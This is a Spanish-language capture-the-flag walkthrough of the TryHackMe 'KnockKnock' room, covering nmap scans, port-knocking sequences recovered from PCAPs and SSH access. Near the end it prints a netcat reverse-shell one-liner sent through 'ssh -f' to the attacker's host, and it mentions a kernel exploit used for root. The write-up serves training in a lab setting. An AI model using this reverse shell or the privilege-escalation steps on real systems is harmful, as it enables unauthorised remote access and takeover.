




TryHackMe - KnockKnock

Contenido
| Titulo | KnockKnock |
|---|---|
| Room | KnockKnock |
| Info | Knock knock, who’s there? Pcaps & port knocking |
| Puntos | 3100 |
| Dificultad | Media |
| Maker | ben |
NMAP
Escaneo de puertos tcp, nmap nos muestra el puerto http (80) abierto.
# Nmap 7.80 scan initiated Mon Feb 24 16:44:16 2020 as: nmap -p- -T4 -sV -sC -o nmap_scan 10.10.220.35
Warning: 10.10.220.35 giving up on port because retransmission cap hit (6).
Nmap scan report for 10.10.220.35
Host is up (0.15s latency).
Not shown: 65534 closed ports
PORT STATE SERVICE VERSION
80/tcp open http Apache httpd 2.4.7 ((Ubuntu))
|_http-server-header: Apache/2.4.7 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Feb 24 17:02:22 2020 -- 1 IP address (1 host up) scanned in 1085.70 seconds
En la pagina principal nos muestra un mensaje junto con un enlace que nos redirige hacia un archivo PCAP.

Knock
Vemos que la IP (192.168.56.102) esta realizando solicitudes a la IP2 (192.168.56.101) utilizando los puertos 7000, 8000, 9000, 7000, 8000, 9000, 8888. Utilizamos knockd utilizando los puertos que encontramos y realizamos un escaneo de puertos con nmap.
root@aoiri:~/tryhackme/knockknock# knock 10.10.220.35 7000 8000 9000 7000 8000 9000 8888 && nmap 10.10.220.35
Starting Nmap 7.80 ( https://nmap.org ) at 2020-02-24 17:11 CST
Nmap scan report for 10.10.220.35
Host is up (0.25s latency).
Not shown: 998 closed ports
PORT STATE SERVICE
80/tcp open http
8888/tcp open sun-answerbook
Nmap done: 1 IP address (1 host up) scanned in 17.61 seconds
root@aoiri:~/tryhackme/knockknock#
Visitamos la IP con el puerto 8888 y encontramos una nueva direccion de la pagina.

En la direccion encontramos nuevamente un archivo PCAP:

Al analizar el archivo PCAP encontramos una solicitud en la que se muestra una imagen en ASCII con un mensaje:

El mensaje esta en aleman por lo que utilizamos google para traducir el mensaje:

Mensaje:
1 3 3 7
Utilizamos los puerto 1, 3, 3 y 7 con knock, y utilizamos nmap para escanear el puerto 1337:
root@aoiri:~/tryhackme/knockknock# knock 10.10.220.35 1 3 3 7 && nmap -p1337 10.10.220.35
Starting Nmap 7.80 ( https://nmap.org ) at 2020-02-24 17:31 CST
Nmap scan report for 10.10.220.35
Host is up (0.16s latency).
PORT STATE SERVICE
1337/tcp open waste
Nmap done: 1 IP address (1 host up) scanned in 0.53 seconds
Visitamos el puerto y encontramos una nueva direccion: 
Encontramos en la direccion un string en base64:

Al traducirlo encontramos varios puertos que indican que es para el servicio SSH:
root@aoiri:~/tryhackme/knockknock# echo T3BlbiB1cCBTU0g6IDg4ODggOTk5OSA3Nzc3IDY2NjYK | base64 -d
Open up SSH: 8888 9999 7777 6666
root@aoiri:~/tryhackme/knockknock#
Utilizamos los puertos con knock y analizamos nuevamente la IP con nmap:
root@aoiri:~/tryhackme/knockknock# knock 10.10.220.35 8888 9999 7777 6666 && nmap -sV -sC 10.10.220.35
Starting Nmap 7.80 ( https://nmap.org ) at 2020-02-24 17:35 CST
Nmap scan report for 10.10.220.35
Host is up (0.16s latency).
Not shown: 998 closed ports
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 6.6.1p1 Ubuntu 2ubuntu2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 1024 8d:1f:97:c6:4d:e9:1d:2b:5d:b8:6e:64:66:bb:48:2b (DSA)
| 2048 02:31:1c:77:aa:c1:f6:2b:d3:09:f6:e0:63:fe:a9:37 (RSA)
| 256 fe:16:33:a4:4d:7f:3d:db:b6:11:d4:b8:c1:32:b6:79 (ECDSA)
|_ 256 cc:5c:76:be:e8:93:b8:55:ef:e8:a3:bd:64:76:2d:75 (ED25519)
80/tcp open http Apache httpd 2.4.7 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 42.73 seconds
Vemos que el servicio SSH esta abierto en el puerto 22, intentamos conectarnos al puerto 22 sin ningun usuario y al conectarnos nos muestra un mensaje donde nos muestra el usuario y su contraseña: 
Intentamos conectarnos con las credenciales pero nos cierra la sesion rapidamente, ademas de eso nos muestra un mensaje en el que nos indica que tenemos un segundo de conexion.

Utilizamos el parametro -f para poder ejecutar comandos al conectarnos en el servicio, vemos que el comando ls -lah se ejecuta:

Ejecutamos una shell inversa:
root@aoiri:~/tryhackme/knockknock# knock 10.10.108.150 8888 9999 7777 6666 && ssh butthead@10.10.108.150 -f 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.8.1.72 1338 >/tmp/f'
############################################
# CONGRATS! YOU HAVE OPENED THE SSH SERVER #
# USERNAME: butthead #
# PASSWORD: ********** #
############################################
butthead@10.10.108.150's password:
root@aoiri:~/tryhackme/knockknock#
Y obtenemos shell con el usuario butthead.

PRIVILEGE ESCALATION
Enumeramos la maquina en busqueda de aplicaciones, archivos, directorios vulnerables. Encontramos que el kernel de esta maquina en su version 3.13.0-46-generic es vulnerable. Descargamos el exploit en la maquina, lo compilamos y ejecutamos el exploit, obtenemos una shell con usuario root.
